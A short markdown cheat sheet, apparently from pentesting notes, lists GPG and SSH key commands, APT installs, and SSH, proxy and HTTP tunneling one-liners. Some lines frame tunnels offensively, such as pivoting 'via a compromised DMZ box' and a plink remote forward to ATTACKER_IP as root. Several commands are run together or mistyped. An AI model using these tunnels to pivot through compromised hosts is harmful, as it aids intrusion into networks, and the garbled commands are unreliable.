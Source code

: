```yaml
---
description: >-
  A short command list on how to use PGP or GPG, SSH key generation and how to
  install APT packages relating to them.
---
```


# SSH & PGP Tools

## Generate a GPG encryption key:

```text
gpg --keygen
```

## Generate an SSH key:

```text
ssh-keygen
```

## Installing 7zip tools using APT:

```text
sudo apt install p7zip-full
```

## Installing GPG graphical interface/keychain using APT:

```text
sudo apt install seahorse-nautilus
```

## Port Forwarding / SSH Tunneling

#### SSH: Local Port Forwarding <a id="ssh-local-port-forwarding"></a>

```text
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

#### SSH: Dynamic Port Forwarding <a id="ssh-dynamic-port-forwarding"></a>

```text
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

#### SSH: Remote Port Forwarding <a id="ssh-remote-port-forwarding"></a>

```text
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389# Scenario: expose RDP on non-routable network;ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVERplink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```

#### Proxy Tunnel <a id="proxy-tunnel"></a>

```text
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555ssh user@127.0.0.1 -p 5555
```

#### HTTP Tunnel: SSH Over HTTP <a id="http-tunnel-ssh-over-http"></a>

```text
# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22hts -F localhost:22 80​# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80htc -F 8080 192.168.1.15:80​# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22ssh localhost -p 8080
```

